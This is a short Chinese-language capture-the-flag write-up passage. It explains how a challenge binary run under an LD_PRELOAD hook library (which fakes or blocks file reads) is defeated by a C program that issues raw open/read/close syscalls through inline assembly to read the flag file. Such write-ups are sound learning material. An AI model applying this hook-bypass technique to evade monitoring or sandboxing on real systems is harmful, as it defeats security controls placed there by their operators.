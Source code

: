 ```python
            stdout=subprocess.PIPE,
            stderr=subprocess.PIPE,
            user="nobody",
            group="nogroup",
            env={
                "LD_PRELOAD": "/stage1.so"
            }
        )
```

大概看了一遍stage1.so，发现和io相关的操作和io不相关但是能间接读flag的函数都被hook了，要么是return一个fake flag要么是 return 0，想了各种的方法，后面突然联想到这些io的操作本质上不就是系统调用吗，那我用内联汇编，去syscall，模拟这些读的操作不就好了

```c
#include <unistd.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>

int main() {
    int fd;
    ssize_t nread;
    char buf[1024];

    // 使用系统调用打开文件
    asm("syscall"
        : "=a" (fd)
        : "0"(SYS_open), "D"("./flag"), "S"(O_RDONLY)
        : "rcx", "r11", "memory");

    if (fd < 0) {
        perror("open");
        return EXIT_FAILURE;
    }

    // 使用系统调用读取文件内容
    asm("syscall"
        : "=a" (nread)
        : "0"(SYS_read), "D"(fd), "S"(buf), "d"(sizeof(buf))
        : "rcx", "r11", "memory");

    if (nread == -1) {
        perror("read");
        asm("syscall"
            :
        : "a"(SYS_close), "D"(fd)
            : "rcx", "r11", "memory");
        return EXIT_FAILURE;
    }

    // 输出文件内容
    fwrite(buf, 1, nread, stdout);

    // 使用系统调用关闭文件
    asm("syscall"
        :
    : "a"(SYS_close), "D"(fd)
        : "rcx", "r11", "memory");

    return EXIT_SUCCESS;
}
```

